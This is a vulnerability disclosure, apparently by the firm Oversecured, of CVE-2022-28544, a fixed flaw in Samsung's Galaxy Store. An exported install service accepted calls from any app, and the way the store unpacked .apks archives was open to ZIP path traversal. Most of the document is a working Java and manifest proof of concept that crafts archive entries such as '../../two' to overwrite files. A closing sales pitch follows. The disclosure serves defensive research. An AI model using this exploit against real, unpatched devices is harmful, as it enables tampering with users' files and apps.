


# Details

<table>
    <tr>
        <td>Name</td>
        <td>Galaxy Store</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.samsungapps</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.02.13</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.04.05</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-28544">CVE-2022-28544</a> (SVE-2022-0358)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$1850</td>
    </tr>
</table>

# Description

Oversecured reported two attack vectors in the exported `com.sec.android.app.samsungapps.api.InstallAgent` service, which contained the exposed AIDL interface `installPackage()`:



During the investigation, it turned out that this AIDL interface wasn't protected in any way and any third-party app installed on the same device could interact with it. This interface was intended for installing apps, but the code contained server-side validation of the app signature on Samsung servers. However, we were able to find another vector of attack on this code: when the app was not in `.apk` format, but in `.apks` format, the Galaxy Store would first unpack the archive and then individually install the app files. The ZIP decompression method was vulnerable to path-traversal, which made it possible to overwrite arbitrary files before the app was installed.

**Proof of Concept**

File `MainActivity.java`:
```java
private ServiceConnection mServiceConnection = new ServiceConnection() {
    public void onServiceConnected(ComponentName cName, IBinder service) {
        processBinder(service);
    }

    public void onServiceDisconnected(ComponentName cName) {
    }
};

private IInstallAgentResultCallback.Stub callback = new IInstallAgentResultCallback.Stub() {
    @Override
    public void onInstallStart(String str) {
        Log.d("evil", "onInstallStart");
    }

    @Override
    public void onInstallSuccess(String str) {
        Log.d("evil", "onInstallSuccess");
    }

    @Override
    public void onInstallFailed(String str, String str2) {
        Log.d("evil", "onInstallFailed");
    }
};

protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent i = new Intent();
    i.setClassName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.api.InstallAgent");
    bindService(i, mServiceConnection, BIND_AUTO_CREATE);
}

private void processBinder(IBinder binder) {
    try {
        Parcel parcel = Parcel.obtain();
        parcel.writeInterfaceToken("com.sec.android.app.samsungapps.api.aidl.IInstallAgentAPI");
        parcel.writeString(getPackageName());
        parcel.writeString(getPackageName());

        parcel.writeInt(1);
        Uri.parse("content://provider.test/payload.apks").writeToParcel(parcel, 0);

        parcel.writeStrongBinder(callback);

        Parcel reply = Parcel.obtain();

        binder.transact(1, parcel, reply, 0);
        reply.readException();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

File `AndroidManifest.xml`:
```xml
<provider android:name=".MyContentProvider" android:authorities="provider.test" android:exported="true" />
```

File `MyContentProvider.java`:
```java
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    try {
        return ParcelFileDescriptor.open(createZip(), ParcelFileDescriptor.MODE_READ_ONLY);
    } catch (IOException e) {
        throw new FileNotFoundException(e.getMessage());
    }
}

private File createZip() throws IOException {
    File zipFile = new File(getContext().getDataDir(), "payload.apks");
    if (zipFile.exists()) {
        return zipFile;
    }
    try (ZipOutputStream out = new ZipOutputStream(new FileOutputStream(zipFile))) {
        out.putNextEntry(new ZipEntry("../one"));
        out.write("one".getBytes());

        out.putNextEntry(new ZipEntry("../../two"));
        out.write("two".getBytes());

        out.putNextEntry(new ZipEntry("../../../three"));
        out.write("three".getBytes());

        out.closeEntry();
    }
    return zipFile;
}
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.